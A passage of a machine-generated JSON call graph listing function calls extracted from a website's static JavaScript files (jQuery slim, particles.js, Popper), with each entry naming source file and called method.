"relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "wrapInner"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "contents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "wrapAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "wrapAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "not"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "visible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getClientRects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createHTMLDocument"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createHTMLDocument"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getClientRects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "scrollTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "position"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "mouseenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "mouseleave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "ready"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "type"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "deepExtend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesCreate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "densityAutoParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "densityAutoParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "checkOverlap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "hexToRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "hexToRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "createSvgImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "drawShape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "grabParticle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "isInArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "bubbleParticle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "isInArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "repulseParticle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "linkParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "attractParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "bounceParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelRequestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelRequestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "canvasClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "getTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "getTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "pushParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "pushParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "pushParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "removeParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "pushParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "removeParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "checkOverlap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "createObjectURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "revokeObjectURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "checkBeforeDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "checkBeforeDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelRequestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "requestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "requestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelRequestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "requestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "requestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelRequestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "requestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "requestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "cancelRequestAnimFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "retinaInit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "canvasInit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "canvasSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "canvasPaint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesCreate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "densityAutoParticles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "hexToRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "loadImg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "checkBeforeDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "eventsListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "callee"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "hexToRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "form"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "form"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "isInArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "getElementById"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "getElementsByClassName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "getElementById"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "particlesJS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "callback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/particles.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/popper-2.5.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 